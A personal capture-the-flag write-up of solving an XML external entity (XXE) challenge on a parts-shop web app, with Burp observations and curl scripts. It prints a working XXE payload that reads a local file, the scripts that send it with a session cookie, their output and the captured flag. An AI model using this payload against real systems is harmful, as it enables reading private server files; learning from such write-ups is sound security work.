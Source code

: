 Oh, did I enjoy this one? I rarely get a chance to play with XXE. In all fairness, this is my third CTF, so
I had read about XXEs and heard about payloads, but I never played with them. I'm sure that either
TryHackMe or HackTheBox has a room for these, or perhaps they both, but I have not reached that point.
When going to the page, we see three parts and a little green plus bar at the bottom. I went
into Burpsuite and started looking at the pages and learned that they are passing data using XML and
I recall the language of the challenge said it's in /flag.txt. A moment of silence for everyone who
tried this URL, because even I did in hopes that it would be that simple. Anyway, viewing the information
from Burp, we see two endpoints:

parts
blueprint

It seems that the blueprint is only used to add, and the second one lists the parts. So I tested adding a
part with a javascript tag and I never saw an alert() box, so it's my assumption that they were
filtering out tags, and without a database, we may as well look at another method. I had to use Google
to get a quick read-up on how XXEs work, and it seems that I just tried adding a part. Going to
the front page shows my new part! And the source showed it's part number six thousand something, but
only the first three parts are shown. I now go to the Firefox browser and open the page, and I notice
something: my part isn't there! Flipping back to Burp, I see that we have a session, so I assume the
added parts involve the session ID. So what now? Well, without a need to authenticate but a need to
make sure we keep within the session, I crafted the following shell to create and store a part (this
is the execution of my payload):

┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ sh sub_xxe.sh
+ curl -X POST https://uscybercombine-s4-parts-shop.chals.io/blueprint -c cookies.txt -H Content-Type: text/xml -d <?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [<!ELEMENT foo ANY >
         <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
         <part>
           <name>&xxe;</name>
           <author>Test Author</author>
           <image>/static/img/test.png</image>
           <description>Test Description</description>
         </part>
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.

         <img src="partshop0.png height="500" width="500">
         
NOTE: I use "-c" to save the cookie data. Even without a login, it will save our session ID to the cookie jar
and I can use it going forward. This output resembles my manual addition but is at the command line, so we need
to use that session. I attempted to get the "next part" available, but that failed (see my execution here,
as before, with a -x so you can see what I ran):
  
┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ sh get_xxe.sh
+ curl -X GET https://uscybercombine-s4-parts-shop.chals.io/part/6559 -b cookies.txt -H Content-Type: text/xml
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually, please check your spelling and try again.</p>

What did this mean to me? It meant that someone must have added an item since I ran my script, or perhaps
several people added items! There are around 1000 players, so it's possible such a race condition existed. To make
this easier, I copied the session from the cookies.txt file and flipped back to Burp. Once the Burp window 
was back in front of me, I just refreshed the Burp browser, and, in the request, I replaced the session ID
with the one created from my script and clicked forward. Tada, flag:

SIVBGR{fu11y_upgr4d3d}

         <img src="partshop1.png" height="500" width="500">

And done! FYI, here are my default scripts:

┌──(trhodes㉿kali)-[~/Downloads/USC]
└─$ cat sub_xxe.sh get_xxe.sh
set -x

curl -X POST https://uscybercombine-s4-parts-shop.chals.io/blueprint \
     -c cookies.txt \
     -H "Content-Type: text/xml" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [<!ELEMENT foo ANY >
         <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
         <part>
           <name>&xxe;</name>
           <author>Test Author</author>
           <image>/static/img/test.png</image>
           <description>Test Description</description>
         </part>'
set -x

curl -X GET https://uscybercombine-s4-parts-shop.chals.io/part/6559 \
        -b cookies.txt \
        -H "Content-Type: text/xml"


TryHackMe has a room about this, which I just joined. It looks interesting, and I hope to go through it soon. For those interested:
<a href="https://tryhackme.com/r/room/xxeinjection">https://tryhackme.com/r/room/xxeinjection</a> is the link.
